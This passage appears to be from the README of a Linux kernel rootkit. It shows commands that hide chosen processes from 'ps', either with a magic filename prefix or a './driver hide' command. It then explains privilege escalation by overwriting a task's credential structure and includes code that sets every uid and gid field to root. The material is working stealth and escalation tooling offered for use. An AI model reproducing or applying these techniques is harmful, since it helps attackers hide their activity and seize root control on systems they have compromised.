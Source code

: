 Hiding a shell script called `helloworld.sh` from the process list:

    $ mv helloworld.sh 3v!1helloworld.sh

or using the driver
     
    $ ./driver hide helloworld.sh
    
Showing a shell script called `helloworld.sh` from the process list on next execution:

    $ mv 3v!1helloworld.sh helloworld.sh
    
or using the driver
     
    $ ./driver show helloworld.sh
 
> **Note:** If the process spawns subprocesses, those subprocesses will NOT be hidden (e.g. if `helloworld.sh` uses sleep 30, sleep will show up in `ps`). You must use the driver to hide these subprocesses which is shown in the next examples.

Hiding all processes named bash using the driver:

    $ ./driver hide bash
    
>NOTE: As is said above, there must be no files that are the same name as the process you want to hide in the current working directory (`cwd`).
The process name you want to hide must also not be a path to an existing file.
Otherwise the driver will hide the file and not the process.
e.g. if there is a file called bash in `cwd` and you do `./driver` hide bash, the bash file will be hidden and not the process.
    
Showing all previously hidden processes named bash using the driver:

    $ ./driver show bash
    
>NOTE: As is said above, there must be no files that are the same name as the process you want to hide in the current working directory (`cwd`).
The process name you want to hide must also not be a path to an existing file.
Otherwise the driver will hide the file and not the process.
e.g. if there is a file called bash in `cwd` and you do ./driver hide bash, the bash file will be hidden and not the process.

## Process privilege escalation
In Linux, a process structure is defined by the `task_struct`.

Escalating processes is done by modifying a `task_struct`'s credentials. This can be accomplished by overwriting the credentials struct within the `task_struct`.

All of a task’s credentials are held in (uid, gid) or through (groups, keys, LSM security) a refcounted structure of type `struct cred`. 

Each task points to its credentials by a pointer called `cred` in its `task_struct`.

    pcred = (struct cred *)task->cred;

In order to escalate, we can set the credentials equal to root.

    pcred->uid.val = 0;
    pcred->suid.val = 0;
    pcred->euid.val = 0;
    pcred->fsuid.val = 0;
    pcred->gid.val = 0;
    pcred->sgid.val = 0;
    pcred->egid.val = 0;
    pcred->fsgid.val = 0;
